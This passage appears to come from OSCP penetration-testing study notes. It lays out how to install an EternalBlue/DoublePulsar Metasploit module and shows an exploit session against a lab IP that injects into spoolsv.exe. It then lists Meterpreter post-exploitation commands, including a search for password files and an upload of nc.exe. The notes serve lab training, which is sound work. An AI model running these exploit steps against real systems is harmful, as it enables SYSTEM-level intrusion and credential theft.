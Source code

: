 -   MS 17-010 - EternalBlue

    -   You may find some boxes that are vulnerable to MS17-010 (AKA. EternalBlue).  Although, not offically part of the indended course, this exploit can be leveraged to gain SYSTEM level access to a Windows box.  I have never had much luck using the built in Metasploit EternalBlue module.  I found that the elevenpaths version works much more relabily. Here are the instructions to install it taken from the following YouTube video: [*https://www.youtube.com/watch?v=4OHLor9VaRI*](https://www.youtube.com/watch?v=4OHLor9VaRI)


    1. First step is to configure the Kali to work with wine 32bit

        dpkg --add-architecture i386 && apt-get update && apt-get install wine32
        rm -r ~/.wine
        wine cmd.exe
        exit

    2. Download the exploit repostory `https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit`

    3. Move the exploit to `/usr/share/metasploit-framework/modules/exploits/windows/smb` or `~/.msf4/modules/exploits/windows/smb`

    4. Start metasploit console
      

     -   I found that using spoolsv.exe as the PROCESSINJECT yielded results on OSCP boxes.
      
      ```
      use exploit/windows/smb/eternalblue_doublepulsar
      msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
      RHOST => 10.10.10.10
      msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
      PROCESSINJECT => spoolsv.exe
      msf exploit(eternalblue_doublepulsar) > run
      ```


-   Experimenting with Meterpreter

    -   Get system information from Meterpreter Shell  
    
        `sysinfo`

    -   Get user id from Meterpreter Shell  
    
        `getuid`

    -   Search for a file  
    
        `search -f *pass*.txt`

    -   Upload a file  
    
        `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`

    -   Download a file  
    
        `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

    -   Invoke a command shell from Meterpreter Shell  
    